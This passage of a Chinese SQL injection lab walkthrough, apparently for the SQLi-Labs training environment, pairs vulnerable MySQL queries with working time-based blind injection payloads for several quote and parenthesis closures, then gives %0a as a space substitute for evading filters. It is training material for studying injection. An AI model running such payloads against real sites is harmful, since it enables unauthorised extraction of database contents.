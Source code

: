 ### 62、时间盲注 [ ') ]

```mysql
# SQL语句
SELECT * FROM security.users WHERE id=('$id') LIMIT 0,1;
# 过滤语句
无
# Payload
?id=1') and if((ascii(substr(database(),1,1))=99),sleep(5),1)--+
```

### 63、时间盲注  [ ' ]

```mysql
# SQL语句
SELECT * FROM security.users WHERE id='$id' LIMIT 0,1;
# 过滤语句
无
# Payload
?id=1%27%20and%20if((ascii(left(database(),1))=99),sleep(5),1)--+
```

### 64、时间盲注  [ )) ]

```mysql
# SQL语句
SELECT * FROM security.users WHERE id=(($id)) LIMIT 0,1;
# 过滤语句
无
# Payload
?id=1))%20and%20if((ascii(left(database(),1))=99),sleep(5),1)--+
```

### 65、时间盲注 [ ") ]

```MYSQL
# SQL语句
$id = '"'.$id.'"';
SELECT * FROM security.users WHERE id=($id) LIMIT 0,1;
# 过滤语句

# Payload
?id=1%22)%20and%20if((ascii(left(database(),1))=99),sleep(5),1)--+
```



## N、总结

### 1、等价字符

```
# 空格
%0a %0a
```

